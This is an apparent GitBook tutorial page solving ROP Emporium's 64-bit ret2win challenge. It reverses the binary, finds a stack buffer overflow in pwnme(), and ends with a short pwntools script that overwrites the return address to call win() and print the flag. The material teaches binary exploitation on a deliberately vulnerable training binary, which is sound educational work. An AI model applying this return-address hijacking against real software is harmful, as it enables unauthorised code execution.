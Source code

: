 ```yaml
---
description: Building a ROP chain for a ret2win binary.
---
```


# rop2win

{% file src="../../.gitbook/assets/rop2win.zip" %}

All the challenges in this section are going to be 64-bit challenges. ROP in 32-bit is almost trivial because we pass parameters on the stack rather than the registers, meaning crafting payloads is super simple. In 64-bit, we need to find ways to load the registers with our desired parameters, which is much more difficult.

The challenge is very similar to [win64](../win64/win64.md). We need to be mindful that we are in 64-bit.

{% hint style="info" %}
_This challenge, along with all the others, are the 64-bit renditions from ROP emporium. They are by far the best resource for learning how to do ROP._
{% endhint %}

### Static Analysis

The primary functions we see in the binary are:

```nasm
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
```

**`ret2win()`**

This function is straightforward. The string values are statically loaded, and we can easily reverse this function:

```c
void win()
{
    puts("Well done! Here's your flag:");
    system("/bin/cat flag.txt");
}
```

**`main()`**

This function makes a series of back-to-back `puts()` calls and then calls `read_in`. In 64-bit, these calls are super easy to interpret, given that you know the parameter register order.

```c
int main()
{
    setvbuf(stdout, 0, 2);
    puts("ret2win by ROP Emporium");
    puts("x86_64\n");
    pwnme();
    puts("\nExiting");
    return 0;
}
```

**`pwnme()`**

Like the last two, we can pretty easily determine the C code for this function. The only one that's confusing is `memset`, whose declaration is in the `man` pages.

```cpp
void *memset(void *s, int c, size_t n);
```

Based on what's loaded to the registers, we can tell the function call is `memset(rbp-0x20, 0, 0x20)`:

```nasm
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
```

Let's put the rest of the function together:

```c
void pwnme()
{
    memset(rbp-0x20, 0, 0x20);
    puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
    puts("What could possibly go wrong?");
    puts("You there, may I have your input please? And don't worry about null bytes, we're using read()!\n");
    printf("> ");
    read(0, rbp-0x20, 0x38);
    puts("Thank you!");
    return;
}
```

{% hint style="info" %}
_If you're struggling to put the C code together, that's okay!_ This is one of the hardest parts of binary exploitation. It comes with lots of practice! Keep practicing using `gdb` to dissect binaries. Try making your own, then looking at them to reassemble the code you wrote.
{% endhint %}

Based on this code, we see a clear buffer overflow vulnerability. We are reading `0x38=56` bytes into the `0x20=32` byte buffer allocated.

### Writing the Payload

Like win64, we need to track the following information:

1. What is the size of the buffer? In our case, it's `0x20` bytes to the base pointer, plus `0x8` bytes for the base pointer, totaling `0x28=40` bytes.
2. Where are we going? We need to overwrite the return pointer with the address of `win()`, which is at `0x400756`.
3. Does our input cause the `movaps` instruction to fail? Our payload is `48` bytes in total, which is divisible by `16`, meaning that we should be fine.

Let's write the exploit just like we wrote the win64 one:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = process('./rop2win')

f_win = 0x400756

padding = b'A' * 40

ropChain = b''
ropChain += p64(f_win)

buf = padding + ropChain

print(proc.recvuntil(b'> '))
proc.sendline(buf)
proc.interactive()
```
{% endcode %}

Two notes here:

1. We will consistently read until the `>` before sending our input because that's how ROP emporium formats their challenges.
2. We will distinguish between padding and payload (ROP chain) to illustrate the difference.

Most of our exploit files for this section will look the same. We will establish our process, then our critical functions and gadgets, build the padding and ROP chain and then send it to the process.

If we send this off, we'll get our flag!
